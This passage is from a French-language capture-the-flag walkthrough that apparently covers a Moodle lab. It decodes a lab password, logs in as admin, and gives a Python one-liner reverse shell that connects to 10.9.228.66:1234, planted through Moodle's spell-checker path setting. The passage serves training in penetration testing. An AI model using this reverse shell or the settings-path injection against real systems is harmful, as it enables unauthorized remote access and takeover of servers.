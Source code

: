 On le décode est on trouve :  xWinter1995x  

**Using the information you found in the last task, login with the newly found user.**

Nom  : admin
Mode de passe : xWinter1995x!

![page8](./Task1-08.png)    

On se connecte avec les identifiants. 

**As this user has more site privileges, you are able to edit the moodles settings. From here get a reverse shell using python and netcat**

![page9](./Task1-09.png) 


Reverse shell.
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.228.66",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```
A la place du chemin ou se trouve spell, on met un reverse shell.  
